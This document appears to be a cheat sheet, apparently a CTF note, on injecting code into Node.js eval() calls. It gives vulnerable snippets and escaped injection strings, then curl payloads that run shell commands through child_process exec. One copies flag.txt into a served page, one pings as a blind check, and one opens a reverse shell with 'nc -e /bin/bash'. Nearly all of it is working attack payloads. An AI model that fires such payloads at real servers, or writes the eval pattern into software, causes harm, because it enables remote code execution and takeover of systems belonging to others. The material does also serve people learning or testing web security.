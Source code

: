 # Injection NodeJS
tester avec: ";", "+", and ".".
 
## basics:

### code 

```javascript
 eval("var i = '" + input + "'")
```
### injection:

```javascript
 '; console.log('injection'); '
```
### execurtera: 

```javascript
 var i = ''; console.log('injection'); ''
```

## +complexe:

### Code:

```javascript
eval('const crypto = require("crypto"); keyHash = crypto.createHash("md5").update("' + json[key] + '").digest("hex");');
```

### échapper les chars:

```bash
└──╼ $jq -aR .
"); console.log("successful injection"); //
"\"); console.log(\"successful injection\"); //"
```

```bash
└──╼ $curl -X POST http://127.0.0.1:21440/admin -d '{"key":"\"); console.log(\"successful injection\"); //"}'
successful injection
const crypto = require("crypto"); keyHash = crypto.createHash("md5").update(""); console.log("successful injection"); //").digest("hex")

curl -X POST http://167.99.88.216:32153/admin -d '{"key":"\"); const { exec } = require(\"child_process\"); exec(\"cat flag.txt > denied.html\"); //"}'
```

### Blind:

```bash
curl http://127.0.0.1:21440/admin -X POST -d '{"key":"\"); const { exec } = require(\"child_process\"); exec(\"ping -c 3 127.0.0.1\"); //"}'
sudo tcpdump -i lo icmp
```

### ReverseShell

```bash
curl http://127.0.0.1:21440/admin -X POST -d '{"key":"\"); const { exec } = require(\"child_process\"); exec(\"nc -e /bin/bash 127.0.0.1 1234\"); //"}'
```